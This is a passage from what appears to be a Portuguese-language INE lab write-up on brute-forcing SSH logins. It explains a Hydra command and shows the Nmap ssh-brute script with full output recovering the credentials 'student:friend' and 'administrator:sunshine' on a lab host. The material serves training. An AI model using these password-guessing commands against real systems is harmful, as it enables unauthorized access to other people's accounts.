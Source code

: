 Onde o comando ´-l´ é para informar o usuário que será utilizado no ataque, o comando ´-P´ é para informar a wordlist que será utilizada no ataque e o comando ´ssh´ é para informar o serviço que será utilizado no ataque.

Atraves do comando acima, conseguimos quebrar a senha do usuário "student" que é "friend".

### **• Utilizando Nmap Script**:

Vamos usar o script ssh-brute do Nmap para descobrir a senha do usuário "administrator" utilizando a lista de senhas `/usr/share/nmap/nselib/data/passwords.lst`

Este script usa arquivos de lista de nome de usuário e senha. Isso é útil quando o nome de usuário de destino não é conhecido pelo invasor. No entanto, neste caso, já conhecemos o nome de usuário, ou seja, "administrator". Assim, criaremos um novo arquivo contendo apenas este nome de usuário.

```bash
root@INE:~/Desktop# echo "administrator" > users
root@INE:~/Desktop# cat users 
administrator
```

Agora podemos executar o script ssh-brute do Nmap:

```bash
root@INE:~/Desktop# nmap -p 22 --script ssh-brute --script-args userdb=/root/Desktop/users demo.ine.local
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-03 15:40 IST
NSE: [ssh-brute] Trying username/password pair: administrator:administrator
NSE: [ssh-brute] Trying username/password pair: administrator:
NSE: [ssh-brute] Trying username/password pair: administrator:123456
NSE: [ssh-brute] Trying username/password pair: administrator:12345
NSE: [ssh-brute] Trying username/password pair: administrator:123456789
NSE: [ssh-brute] Trying username/password pair: administrator:password
NSE: [ssh-brute] Trying username/password pair: administrator:iloveyou
NSE: [ssh-brute] Trying username/password pair: administrator:princess
NSE: [ssh-brute] Trying username/password pair: administrator:12345678
NSE: [ssh-brute] Trying username/password pair: administrator:1234567
NSE: [ssh-brute] Trying username/password pair: administrator:abc123
NSE: [ssh-brute] Trying username/password pair: administrator:nicole
NSE: [ssh-brute] Trying username/password pair: administrator:daniel
NSE: [ssh-brute] Trying username/password pair: administrator:monkey
NSE: [ssh-brute] Trying username/password pair: administrator:babygirl
NSE: [ssh-brute] Trying username/password pair: administrator:qwerty
NSE: [ssh-brute] Trying username/password pair: administrator:lovely
NSE: [ssh-brute] Trying username/password pair: administrator:654321
NSE: [ssh-brute] Trying username/password pair: administrator:michael
NSE: [ssh-brute] Trying username/password pair: administrator:jessica
NSE: [ssh-brute] Trying username/password pair: administrator:111111
NSE: [ssh-brute] Trying username/password pair: administrator:ashley
NSE: [ssh-brute] Trying username/password pair: administrator:000000
NSE: [ssh-brute] Trying username/password pair: administrator:iloveu
NSE: [ssh-brute] Trying username/password pair: administrator:michelle
NSE: [ssh-brute] Trying username/password pair: administrator:tigger
NSE: [ssh-brute] Trying username/password pair: administrator:sunshine
Nmap scan report for demo.ine.local (192.34.159.3)
Host is up (0.000030s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute: 
|   Accounts: 
|     administrator:sunshine - Valid credentials
|_  Statistics: Performed 27 guesses in 6 seconds, average tps: 4.5
MAC Address: 02:42:C0:22:9F:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 6.44 seconds
```